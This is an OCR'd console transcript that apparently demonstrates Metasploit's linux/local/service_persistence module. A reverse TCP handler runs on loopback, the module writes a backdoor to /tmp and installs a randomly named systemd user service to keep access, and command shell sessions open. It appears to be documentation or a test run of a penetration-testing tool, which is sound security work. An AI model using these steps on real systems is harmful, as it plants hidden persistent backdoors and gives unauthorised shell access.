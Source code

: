        Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
       LPORT  4445             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       4   systemd user


    msf5 exploit(linux/local/service_persistence) > run

    [!] SESSION may not be compatible with this module.
    [!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want
    ReverseListenerBindAddress?
    [*] Started reverse TCP handler on 127.0.0.1:4445
    [*] Command shell session 2 opened (127.0.0.1:4445 -> 127.0.0.1:54344) at 2019-02-15 1
    5:45:16 -0500

    id
    uid=1000(cblack) gid=1000(cblack) groups=1000(cblack),27(sudo),117(postgres)
    exit
    [*] 127.0.0.1 - Command shell session 2 closed.
    msf5 exploit(linux/local/service_persistence) > set VERBOSE true
    VERBOSE => true
    msf5 exploit(linux/local/service_persistence) > run

    [!] SESSION may not be compatible with this module.
    [!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want
    ReverseListenerBindAddress?
    [*] Started reverse TCP handler on 127.0.0.1:4445
    [*] Writing backdoor to /tmp/iEucd
    [*] Writing service: /home/cblack/.config/systemd/user/uKxHqmV.service
    [*] Reloading manager configuration
    [*] Enabling service
    [*] Starting service: uKxHqmV
    [*] Command shell session 3 opened (127.0.0.1:4445 -> 127.0.0.1:54358) at 2019-02-15 1
    5:45:30 -0500

    echo hi lennart
    hi lennart
    exit
    [*] 127.0.0.1 - Command shell session 3 closed.
